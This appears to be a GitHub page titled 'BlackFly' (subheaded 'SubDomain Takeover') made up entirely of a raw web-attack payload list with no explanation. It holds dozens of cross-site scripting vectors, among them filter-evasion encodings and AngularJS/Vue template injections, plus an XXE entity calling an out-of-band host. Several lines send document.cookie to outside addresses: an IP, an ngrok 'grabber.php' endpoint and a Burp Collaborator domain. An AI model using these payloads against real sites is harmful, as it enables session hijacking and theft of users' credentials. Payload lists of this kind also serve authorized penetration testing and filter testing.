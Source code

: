 <h1>BlackFly</h1>

SubDomain Takeover


 %E2%88%80%E3%B8%80%E3%B0%80script%E3%B8%80alert(1)%E3%B0%80/script%E3%B8%80 
 "/></a></><img src=1.gif onerror=alert(2);>
 ”/>&_lt;_script>alert(3)&_lt;/scr_ipt>”/>
 [click this link](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)
<img src=\"test\" onerror=\"alert(document.domain)\">
{ "comment": { "id": <comment-id>, "body": "blahblah", "body_html": "blah<img src=x onerror=alert(0);>" } }
<img src=x oneonerrorrror=alert(String.fromCharCode(120,61,97,108,101,114,116,40,49,41));>
{{$on.constructor('alert(4)')()}}
{{$el.ownerDocument.defaultView.alert(1)}}
{{location='javascript:alert\x281\x29'}}
<script>{onerror=alert}throw 1</script>
<iframe>13"-->">'` -- `<!--<img src="--><img src=x onerror=(prompt)(`Ex.Mi`);(prompt)(document.cookie);location=`https://ex-mi.ru`;>

<x @click=$event.view.alert(5)>click</x>
<x v-bind:is="'script'" src="//14.rs" />
<x is=script src=//⑭.₨>
<component is=script src=//⑭.₨>
<strike onpointerover="alert(6)">XSS</strike>
<small onmouseenter="alert(7)">test</small>
<strong onkeyup="alert(8)" contenteditable="true">test</strong>
<spacer onmouseup="alert(9)">test</spacer>
<source id="x" tabindex="1" onbeforedeactivate="alert(10)"><input autofocus="autofocus">
<s onpointerenter="alert(11)">XSS</s>
<rt onmouseleave="alert(12)">test</rt>
<progress onpointerdown="alert(13)">XSS</progress>
<marquee onpointerover="alert(14)">XSS</marquee>
<mark onpointerup="alert(15)">XSS</mark>
<legend onmouseenter="alert(16)">test</legend>
<kbd ondblclick="alert(17)" autofocus="autofocus" tabindex="1">test</kbd>
<frameset onpointerleave="alert(18)">XSS</frameset>
<frameset onanimationend="alert(19)" style="animation-name: x;"></frameset>
<frameset onmousedown="alert(20)">test</frameset>
<frameset onbeforepaste="alert(21)" contenteditable="true">test</frameset>
<frameset id="x" tabindex="1" ondeactivate="alert(22)"></frameset>
{{-function(){this.alert(23)}()}}
{{(_=''.sub).call.call({}[$='constructor'].getOwnPropertyDescriptor(_.__proto__,$).value,0,'alert(25)')()}}

<!'/*"/*/'/*/"/*--><iframe/src \/\/onload = prompt(1)<x oncut=alert()>x<svg onload=alert(document.domain)>
</onmouseover=prompt(1) ><isindex formaction=javascript:alert(/XSS/) type=submit><img src="x" onerror=alert(1)>
<iframe>“><img src=x onerror=alert(2)>


<iframe><iframe><b><noscript>&lt;/noscript&gt;<x v-bind:is="'script'" src="//14.rs" /></noscript></b></iframe>
<iframe><iframe></iframe></iframe><b><noscript></noscript><iframe onload="setTimeout(/alert(26)/.source)"></iframe></b>
<iframe><iframe><iframe onload="setTimeout(/alert(26)/.source)"></iframe>
<iframe><iframe onload="setTimeout(/alert(27)/.source)">
<FRAMESET><FRAMESET><b><noscript></noscript><x is=script src=//⑭.₨></noscript></b></FRAMESET>
<IFRAME><IFRAME><b><noscript></noscript><x is=script src=//14.rs></noscript></b></IFRAME>
<iframe><iframe><b><noscript></noscript><x is=script src=//14.rs></noscript></b></iframe>
<iframe><iframe><b><noscript></noscript><x is=script src=//blackfly06.xss.ht></noscript></b></iframe>
  "/></a></><img src=1.gif onload=prompt(28);>
 <script>window['alert'](document['domain'])</script>
<div id = "x"></div><script>alert(x.parentNode.parentNode.parentNode.location)</script>
<svg onload=prompt%26%230000000040document.domain)>
"><textarea autofocus onfocus=co\u006efir\u006d()>"><iframe srcdoc="&lt;img src&equals;x:x onerror&equals;alert&lpar;document.domain&rpar;&gt;">

 <img src='/static/demos/GEECS'><img src=x onerror=alert(/DOM-XSS/)>.jpg' />
 <a href=javas&#99;ript:alert(29)>click
 “><svg/onload=alert(document.domain)>”@x.y
 <details open ontoggle=confirm()>
 #'><img src=x onerror=alert(/DOM-XSS/)>
 <audio src/onerror=alert(30)>
 <embed src=//14.rs> —
 <d3/onmouseenter=[2].find(confirm)>z on .
 "'..lpe/Title/</Style/</Script/</Textarea/</Noscript/</Pre/</Xmp><Body/OnPageShow=confirm(31)>#
 `</title><base href="https://mrvueoqjum08.redir.bugpoc.ninja/"><input id="fileIntegrity" value="${fileIntegrity}" />`
 <IFRAME SRC=# onmouseover="alert(document.cookie)"></IFRAME>
 <script>new Image().src="http://193.112.33.32/?cookie=" + document.cookie;</script>
 
 <iframe srcdoc='&lt;body onload=prompt&lpar;32&rpar;&gt;'>

 
<?xml version="1.0" encoding="ISO-8859-1"?><foo><![CDATA[<]]>SCRIPT<![CDATA[>]]>alert('gotcha');<![CDATA[<]]>/SCRIPT<![CDATA[>]]></foo>

<!--?xml version="1.0" encoding="ISO-8859-1"?--><foo>&lt;<!--[CDATA[<]]-->SCRIPT<!--[CDATA[-->&gt;alert('gotcha');&lt;<!--[CDATA[<]]-->/SCRIPT<!--[CDATA[-->&gt;</foo>

&lt;<!\[CDATA\[<]]>SCRIPT<!\[CDATA\[>&gt;alert('gotcha');&lt;<!\[CDATA\[<]]>/SCRIPT<!\[CDATA\[>&gt;

<!--?xml version="1.0" encoding="ISO-8859-1"?--><foo>&lt;<!\[\CDATA\[<]]>SCRIPT<!\[\CDATA\[>&gt;alert('gotcha');&lt;<!\[\CDATA\[<]]>/SCRIPT<!\[\CDATA\[>&gt;</foo>

>"<IMG SRC="javas]]<![CDATA[cript:document.cookie=true;">]]</C></X></xml><SPAN DATASRC=#I DATAFLD=C DATAFORMATAS=HTML></SPAN></p> 


    <script>
        if (environment.MAXYMISER === 'true') {
            document.write('<script src="x" alert(33)><\/script>');
        }
    </script>
    
    
    
<body>
<script>
const FRAME_COUNT = 1024;

let container = document.body.appendChild(document.createElement('div'));
for (let i = 0; i < FRAME_COUNT; ++i) {
  let frame = container.appendChild(document.createElement('iframe'));
  frame.style.display = 'none';
}
container.remove();

frame = container.firstChild;
alert(`
  <iframe> is not attached to the document tree, but still has a content frame!
  frame.parentNode.parentNode: ${frame.parentNode.parentNode}
  frame.contentWindow: ${frame.contentWindow}
`);
</script>
</body>

9t337xafh5140p6xmniu2xs4ovulia.burpcollaborator.net


">><marquee><img src=//9t337xafh5140p6xmniu2xs4ovulia.burpcollaborator.net onerror=confirm(document.cookie)></marquee>




<?xml version="1.0" encoding="UTF-8"?>
 <!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM 
 “http://vnm4kils63xo4q12645hx4jlico3cs.burpcollaborator.net”> ]>
  <stockCheck>
  <productId>
  &xxe;
    </productId>
     <storeId>
       1
       </storeId>
       </stockCheck>




<img src=https://eba1c363a99a.ngrok.io/XSS/grabber.php?c='+document.cookie>

<xml ID="xss"><I><B>&lt;IMG SRC=http://03ac0d27a0c8.ngrok.io/&gt;</B></I></xml><SPAN DATASRC="#xss" DATAFLD="B" DATAFORMATAS="HTML"></SPAN></C></X></xml><SPAN DATASRC=#I DATAFLD=C DATAFORMATAS=HTML></SPAN>
